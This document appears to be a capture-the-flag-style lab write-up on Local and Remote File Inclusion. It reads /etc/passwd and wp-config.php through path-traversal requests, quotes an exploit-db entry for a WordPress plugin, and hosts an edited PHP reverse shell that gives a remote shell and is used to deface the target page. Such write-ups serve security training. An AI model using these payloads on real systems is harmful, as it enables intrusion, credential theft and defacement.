Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14317
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false

</div>

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/apache2/apache2.conf&action=go📌 HTTP/1.1
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:04:51 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 20441
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    </form>

    <br />
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.

# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
#	/etc/apache2/
#	|-- apache2.conf
#	|	`--  ports.conf
#	|-- mods-enabled
#	|	|-- *.load
#	|	`-- *.conf
#	|-- conf-enabled
#	|	`-- *.conf
# 	`-- sites-enabled
#	 	`-- *.conf
#
#
# * apache2.conf is the main configuration file (this file). It puts the pieces
#   together by including all remaining configuration files when starting up the
#   web server.
#
# * ports.conf is always included from the main configuration file. It is
#   supposed to determine listening ports for incoming connections which can be
#   customized anytime.
#
# * Configuration files in the mods-enabled/, conf-enabled/ and sites-enabled/
#   directories contain particular configuration snippets which manage modules,
#   global configuration fragments, or virtual host configurations,
#   respectively.
#
#   They are activated by symlinking available configuration files from their
#   respective *-available/ counterparts. These should be managed by using our
#   helpers a2enmod/a2dismod, a2ensite/a2dissite and a2enconf/a2disconf. See
#   their respective man pages for detailed information.
#
# * The binary is called apache2. Due to the use of environment variables, in
#   the default configuration, apache2 needs to be started/stopped with
#   /etc/init.d/apache2 or apache2ctl. Calling /usr/bin/apache2 directly will not
#   work with the default configuration.


# Global configuration
#

#
# ServerRoot: The top of the directory tree under which the server's
# configuration, error, and log files are kept.
#
# NOTE!  If you intend to place this on an NFS (or otherwise network)
# mounted filesystem then please read the Mutex documentation (available
# at <URL:http://httpd.apache.org/docs/2.4/mod/core.html#mutex>);
# you will save yourself a lot of trouble.
#
# Do NOT add a slash at the end of the directory path.
#
#ServerRoot "/etc/apache2"

#
# The accept serialization lock file MUST BE STORED ON A LOCAL DISK.
#
Mutex file:${APACHE_LOCK_DIR} default

#
# PidFile: The file in which the server should record its process
# identification number when it starts.
# This needs to be set in /etc/apache2/envvars
#
PidFile ${APACHE_PID_FILE}

#
# Timeout: The number of seconds before receives and sends time out.
#
Timeout 300

#
# KeepAlive: Whether or not to allow persistent connections (more than
# one request per connection). Set to "Off" to deactivate.
#
KeepAlive On

[...]
```

#### Lab Environment

**WordPress IMDb Widget**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Local File Inclusion could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find an local file inclusion attack on it.

<u>A version of WordPress IMDb Profile Widget Plugin is vulnerable to a local file inclusion attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`whatweb https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/`:
```
https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.135.113], JQuery[1.11.3], MetaGenerator[WordPress 4.4],📌 PHP[5.5.9-1ubuntu4.25], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[wpvuln &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.4], X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`gobuster dir --url https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/.hta                 (Status: 403) [Size: 336]
/.htaccess            (Status: 403) [Size: 341]
/.htpasswd            (Status: 403) [Size: 341]
/cgi-bin/             (Status: 403) [Size: 340]
/index.php            (Status: 301) [Size: 0] [--> https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/]
/license              (Status: 200) [Size: 19545]
/LICENSE              (Status: 200) [Size: 10273]
/logo                 (Status: 200) [Size: 14598]
/phpinfo.php          (Status: 200) [Size: 83957]
/readme               (Status: 200) [Size: 7339]
/server-status        (Status: 403) [Size: 345]
/wp-admin             (Status: 301) [Size: 420] [--> http://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-admin/]
/wp-includes          (Status: 301) [Size: 423] [--> http://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-includes/]
/wp-content           (Status: 301) [Size: 422] [--> http://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`wpscan --url https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/ [172.104.135.113]
[+] Started: Fri Nov 29 14:26:04 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.4 identified (Insecure, released on 2015-12-09).
 | Found By: Rss Generator (Passive Detection)
 |  - https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/?feed=rss2, <generator>https://wordpress.org/?v=4.4</generator>
 |  - https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.4</generator>

[+] WordPress theme in use: twentysixteen
 | Location: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:📌

[+] imdb-widget📌
 | Location: https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/imdb-widget/
 | Last Updated: 2016-03-28T12:41:00.000Z
 | [!] The version is out of date, the latest version is 1.1.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.8 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/imdb-widget/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Nov 29 14:26:17 2024
[+] Requests Done: 172
[+] Cached Requests: 5
[+] Data Sent: 60.257 KB
[+] Data Received: 202.8 KB
[+] Memory used: 336.383 MB
[+] Elapsed time: 00:00:12
```

`searchsploit 'imdb widget'`:
```
--------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                             |  Path
--------------------------------------------------------------------------- ---------------------------------
WordPress Plugin IMDb Profile Widget 1.0.8 - Local File Inclusion          | php/webapps/39621.txt
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/39621.txt ./`

`cat ./39621.txt`:
```
# Exploit Title: Wordpress Plugin IMDb Profile Widget - Local File Inclusion
# Exploit Author: CrashBandicot @DosPerl
# Date: 2016-03-26
# Google Dork : inurl:/wp-content/plugins/imdb-widget
# Vendor Homepage: https://wordpress.org/plugins/imdb-widget/
# Tested on: MSWin32
# Version: 1.0.8

# Vuln file : pic.php📌

<?php

header( 'Content-Type: image/jpeg' );
readfile( $_GET["url"] );📌


# PoC : /wp-content/plugins/imdb-widget/pic.php?url=../../../wp-config.php📌
# Right click -> Save As -> rename pic.jpg in .txt and read file

# 26/03/2016 - Informed Vendor about Issue
# 27/03/2016 - Waiting Reply
```

`curl 'https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/imdb-widget/pic.php?url=../../../wp-config.php'`:
```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'pentester');🔑

/** MySQL database password */
define('DB_PASSWORD', 'password1');🔑

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

[...]
```

`curl 'https://1ffvba8gyrsoytocyh0wt2kxe.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/imdb-widget/pic.php?url=../../../../../../etc/passwd'`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

---

## Remote File Inclusion (RFI)

### Remote File Inclusion Basics

#### Lab Environment

**Remote File Inclusion I**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will <u>focus on [OWASP A5: Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control) flaws and we will take a look at how to exploit the vulnerability</u> on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.

**Objective**: Leverage the Remote File Inclusion vulnerability and perform an XSS attack on the web application.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.250.182.2📌 netmask 255.255.255.0  broadcast 192.250.182.255
        ether 02:42:c0:fa:b6:02  txqueuelen 0  (Ethernet)
        RX packets 17  bytes 1446 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`whatweb http://192.250.182.3/`:
```
http://192.250.182.3/ [200 OK] Apache[2.4.7], Cookies[PHPSESSID,showhints], Country[UNITED STATES][US], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)],📌 IP[192.250.182.3], JQuery, PHP[5.5.9-1ubuntu4.25], PoweredBy[HTTP], Script[text/javascript], UncommonHeaders[logged-in-user], X-Powered-By[PHP/5.5.9-1ubuntu4.25], X-XSS-Protection[0]
```



`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/php-reverse-shell.php ./revsh.php`

`cat ./revsh.php`:
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[...]
```

`vim ./revsh.php`:
```php
[...]

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.250.182.2';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[...]
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`nc -lnvp 4444`:
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`curl http://192.250.182.3/index.php?page=http://192.250.182.2/revsh.php`

```
Ncat: Connection from 192.250.182.3.
Ncat: Connection from 192.250.182.3:33354.
Linux victim-1 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 10:34:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 13:41:37 up 103 days,  7:03,  0 users,  load average: 0.31, 0.60, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
/bin/sh: 0: can't access tty; job control turned off
```
```
$ /bin/bash -i                                                           
bash: cannot set terminal process group (11): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/$ 
```
```
www-data@victim-1:/$ pwd
/
```
```
www-data@victim-1:/$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.3 LTS"
NAME="Ubuntu"
VERSION="14.04.3 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.3 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```
```
www-data@victim-1:/$ cd /var/www/html && ls
LICENSE
README.md
add-to-your-blog.php
ajax
arbitrary-file-inclusion.php
authorization-required.php
back-button-discussion.php
browser-info.php
cache-control.php
capture-data.php
captured-data.php
classes
client-side-comments.php
client-side-control-challenge.php
config
credits.php
data
database-offline.php
directory-browsing.php

[...]
```
```
www-data@victim-1:/$ echo '<h1>You have been hacked!</h1>' >> ./index.php
```

`curl -s http://192.250.182.3/index.php | grep 'hacked'`:
```html
	<h1>You have been hacked!</h1>🚩
```

---
---
